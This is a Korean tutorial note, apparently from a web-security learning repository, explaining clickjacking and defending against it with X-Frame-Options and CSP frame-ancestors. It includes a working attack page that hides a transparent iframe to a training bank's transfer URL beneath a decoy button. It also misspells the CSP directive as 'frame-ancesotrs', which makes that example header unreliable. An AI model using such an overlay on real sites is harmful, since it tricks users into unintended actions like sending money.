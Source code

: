 # Click Hijacking

## 목차

1. [개요](#개요)
2. [원리](#원리)
3. [예문](#예문)
4. [해결방안](#해결방안)

## 개요

`Click Jacking`(클릭 재킹)은 웹 브라우저 화면에
출력되는 내용에 HTML, CSS, JS 등과 같이 화면 출력에
영향을 미치는 요소들을 이용하여 사용자의 눈을 속여
사용자의 클릭을 유도하는 공격방법이다.


## 원리

아래와 같이 외부 페이지 리소스를
불러올 수 있는 태그 엘리먼트를 사용합니다. 
```html
    <frame>
    <iframe>
    <object>
    <embed>
    <applet>
```

사용자의 클릭을 유도하는 페이지를 구성 후,
그 페이지 위에 iframe등의 태그로
누르게 할 페이지를 로드합니다.
그리고 CSS `opacity`(투명도 조절)과 같이
사용자의 눈에 보이지 않도록 숨겨 놓는 방법을
이용하여 공격을 할 수 있습니다.

> 사용자가 보는 페이지와
> 실제로 누르는 곳에 차이가 있는 이유는
> **iframe**태그가 웹 브라우저 상에서는
> 더 위에 위치해 있기에
> 클릭 시 동작하는 원리이다.

## 예문

```html
    <!doctype html>
    <html>
        <head>
            <meta charset='utf-8'>
        </head>
        <body>
            <div id="wrapper">
                <div id="my-div">
                    <button id='my-button'>광고 끄기</button>
                    <img src="theori_tv.jpg" id='my-img'>
                </div>
                <iframe src="https://bank.dreamhack.io/send_money_preview?to=hacker&amount=10000" id="my-frame"></iframe>
            </div>
            <style>
            button { width: 100px; height: 30px; }
            * { margin: 0; padding: 0; }
            #wrapper {
                position: absolute;
                top: calc(50% - 250px);
                left: calc(50% - 250px);
            }
            #my-div {
                position: absolute;
                z-index: -9;
                top: 118px;
                left: 10px;
            }
            #my-img {
                border: 1px solid blue;
                width: 600px;
                position: absolute;
                left: 0;
                z-index: -10;
            }
            #my-button {
                width: 100px;
                height: 100px;
            }
            #my-frame {
                border: 1px solid red;
                width: 300px;
                height: 300px;
                opacity: 0.1;
            }
            </style>
        </body>
    </html>
```
## 해결방안

`Click Hijacking`의 해결방안은
아래의 두가지가 있습니다.

1. [**X-Frame-Options**](#X-Frame-Options)
2. [**frame-ancestors**](#frame-ancestors)

이 두 설정 모두 부모 페이지의 URL을
제한하는 방식으로 클릭재킹을 방어합니다.

### X-Frame-Options

HTTP 응답 헤더를 통해
`DENY`와 `SAMEORIGIN` 두개의 값을
설정 가능합니다.

|값|내용|
|:--|:--|
|DENY|부모 페이지 URL 상관없이 모두 차단|
|SAMEORIGIN|부모 페이지 URL이 Same Origin이라면 허용|

**예시**(모두 차단하는 방법)

    X-Frame-Options: DENY

### frame-ancestors
**CSP**(Content Security Policy)의 
`frame-ancesotrs` 지시어를 통해
값을 설정할 수 있습니다.
`frame-ancestors` 지시어는 CSP를 
HTTP 응답 헤더를 통해 설정해야하며
\<meta>태그로는 설정할 수 없습니다.

|값|내용|
|:--|:--|
|'none'|X-Frame-Options DENY와 동일|
|'self'|X-Frame-Options SAMEORIGIN과 동일|
|http://, https://|scheme가 같으면 모두 허용|
|*.dreamhack.io, dreamhack.io, https://dreamhack.io|host나 scheme+host가 같으면 모두 허용, 와일드카드(*)를 사용할 수 있음|

**예시** (http://dreamhack.io와 google.com의 모든 서브 도메인 그리고 https://scheme를 모두 허용)

    Content-Security-Policy:
    frame-ancesotrs http://dreamhack.io
    *.google.com
    https://
-----
대부분의 브라우저에서 호환성과 보안문제로 
모든 parent URL들을 검사하지만
`X-Frame-Options`보다는 최신 기술인
CSP `frame-ancestors`를 사용하는것을 권고한다.

**[Home](https://github.com/sunrabbit123/Learn_Web_Security)**